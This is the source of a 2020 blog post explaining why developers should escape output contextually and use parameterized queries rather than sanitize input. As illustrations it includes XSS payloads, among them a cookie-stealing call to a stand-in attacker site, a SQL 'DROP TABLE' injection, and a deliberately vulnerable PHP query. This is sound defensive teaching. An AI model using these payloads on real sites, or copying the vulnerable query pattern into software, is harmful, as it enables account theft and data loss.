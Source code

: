 ```yaml
---
layout: default
title: Don’t try to sanitize input. Escape output.
permalink: /writings/dont-sanitize-do-escape/
description: Why you should escape output correctly, but generally not sanitize user input.
---
```

<h1>{{ page.title }}</h1>
<p class="subtitle">February 2020</p>


Every so often developers talk about "sanitizing user input" to prevent cross-site scripting attacks. This is well-intentioned, but leads to a false sense of security, and sometimes mangles perfectly good input.


## How does cross-site scripting happen?

A website is vulnerable to cross-site scripting (XSS) attacks if users can enter information that the site repeats back to them verbatim in a page's HTML. This might cause minor issues (HTML that breaks the page layout) or major ones (JavaScript that sends the user's login cookie to an attacker's site).

Let's walk through a concrete example:

1. NaiveSite allows you to enter your name, which is output as is on your profile page.
2. Billy the Kid enters his name as `Billy <script>alert('Hello Bob!')</script>`.
3. Anyone who visits Billy's profile page gets some HTML including the unescaped `script` tag, which their browser runs.
4. If the `alert()` were changed to something more malicious, like `sendCookies('https://billy.com/cookie-monster')`, Billy may now be collecting the unsuspecting visitor's login information.

Side note: it isn't quite this simple, as login cookies are usually marked `HttpOnly`, which means they're not accessible to JavaScript. But this is NaiveSite, so it's likely they made both an XSS mistake and a cookie one.


## Why input filtering isn't a great idea

The developer has heard of "input filtering" or "sanitizing input", so they write some code to strip out unsafe HTML characters `<>&` from the name before storing it. Problem solved!

But there are two problems with this. For one, a couple might sign up to NaiveSite as <code>Bob&nbsp;&amp;&nbsp;Jane&nbsp;Smith</code>, but the filtering code strips the `&`, and suddenly Bob is on his own, with a middle name of Jane.

Or if the filter is a bit more zealous and also strips `'` and `"`, someone like Bill O'Brien becomes Bill OBrien. Messing up [people's names](https://www.kalzumeus.com/2010/06/17/falsehoods-programmers-believe-about-names/) is not a good look.

Perhaps more importantly, it gives a false sense of security. What does "unsafe" mean? In what context? Sure, `<>&` are unsafe characters for HTML, but what about CSS, JSON, SQL, or even shell scripts? Those have a completely different set of unsafe characters.

For example, NaiveSite might have a PHP template that looks like this:

```html
<html>
...
<script>
var name = "<?=$name?>";
</script>
```

If an attacker sets their name to include double quotes, like `"; badFunc(); "`, they can run arbitrary JavaScript on any NaiveSite pages that display the user's name (which, if you're logged in, is probably all of them).

Another example of this kind of thing is SQL injection, an attack that's closely related to cross-site scripting. NaiveSite is powered by MySQL, and it finds users like so:

```php
$query = "SELECT * FROM users WHERE name = '{$name}'"
```

When a boy named [`Robert'); DROP TABLE users;`](https://xkcd.com/327/) comes along, NaiveSite's entire user database is deleted. Oops!

Incidentally, the mother in the xkcd comic says, "I hope you've learned to sanitize your database inputs." Which is somewhat confusing, but I'll give Randall the benefit of the doubt and assume he meant "escape your database parameters".

In short, it's no good to strip out "dangerous characters", because some characters are dangerous in some contexts and perfectly safe in others.


## Escape your output instead

The only code that knows what characters are dangerous is the code that's outputting in a given context.

So the better approach is to store whatever name the user enters verbatim, and then have the template system HTML-escape when outputting HTML, or properly escape JSON when outputting JSON and JavaScript.

And of course use your SQL engine's parameterized query features so it properly escapes variables when building SQL:

```php
$stmt = $db->prepare('SELECT * FROM users WHERE name = ?');
$stmt->bind_param('s', $name);
```

This is sometimes called “contextual escaping”. If you happen to use Go's [`html/template`](https://golang.org/pkg/html/template/) package, you get automatic contextual escaping for HTML, CSS, and JavaScript. Most other templating systems at least give you automatic HTML escaping, for example React, Jinja2, and Rails templates.


## But what if you *want* raw input?

One tricky situation is when your app's purpose is allowing a user to enter HTML or Markdown for display. In this case you can't escape when rendering output, because the whole purpose is to allow users to add links, images, headings, etc.

So you have to take a different approach. If you're using Markdown, you can either:

1. Allow them to only enter pure Markdown, and convert that to HTML on render (many Markdown libraries allow raw HTML by default; be sure to disable that). This is the most secure option, but also more restrictive.
2. Allow them to use HTML in the Markdown, but only a whitelist of allowed tags and attributes, such as `<a href="...">` and `<img src="...">`. Both [Stack Exchange](https://meta.stackexchange.com/a/135909/160696) and [GitHub](https://github.github.com/gfm/#disallowed-raw-html-extension-) take this second approach.

If you're not using Markdown but want to let your users enter HTML directly, you only have the second option -- you must filter using a whitelist. This is harder to get right than you'd think (for example, `<img src="x" onerror="badFunc()">`), so be sure to use a mature, security-vetted library like [DOMPurify](https://github.com/cure53/DOMPurify).

So in cases where you do need to "echo" raw user input, carefully filter input based on a restrictive whitelist, and store the result in the database. When you come to output it, output it as stored without escaping.

The parallel for SQL injection might be if you're building a data charting tool that allows users to enter arbitrary SQL queries. You might want to allow them to enter `SELECT` queries but not data-modification queries. In these cases you're best off using a proper SQL parser ([like this one](https://github.com/xwb1989/sqlparser)) to ensure it's a well-formed `SELECT` query -- but doing this correctly is not trivial, so be sure to get security review.


## What about validation?

Input sanitization is usually a bad idea, but input *validation* is a good thing.

For example, when you're parsing form fields, and you have a number field that's not a number, or an email address without an `@`, or a "post status" drop-down that can only be one of `draft`, `published`, or `archived` -- then by all means validate it and return an error if it's invalid.

Good web form validation shows errors inline so the user knows exactly what to fix:

![Web form validation](/images/form-validation.png)

You must do validation at least on the backend, otherwise an attacker could bypass the frontend validation and `POST` bogus data to your endpoint directly. In addition, you can also validate early on the frontend to show errors more real-time, without a round trip to the server.


## Further reading

OWASP has two cheat sheets on [Cross Site Scripting Prevention](https://owasp.org/www-project-cheat-sheets/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet) and [SQL Injection Prevention](https://owasp.org/www-project-cheat-sheets/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html) that contain a lot of further information on escaping.

There's also a StackOverflow [answer to "How can I sanitize user input with PHP?"](https://stackoverflow.com/questions/129677/how-can-i-sanitize-user-input-with-php/130323#130323) that is somewhat PHP-specific, but I found it succinct and helpful. It links to a page on PHP [magic quotes](https://www.php.net/manual/en/security.magicquotes.php), which were a bad idea and actually removed in PHP 5.4 -- the discussion there is very much in line with what I've written above.

If you have any feedback on this article, please get in touch! Or see the comments on [Hacker News](https://news.ycombinator.com/item?id=22431022) and [programming reddit](https://www.reddit.com/r/programming/comments/fa7rn8/dont_try_to_sanitize_input_escape_output/).


{% include sponsor.html %}
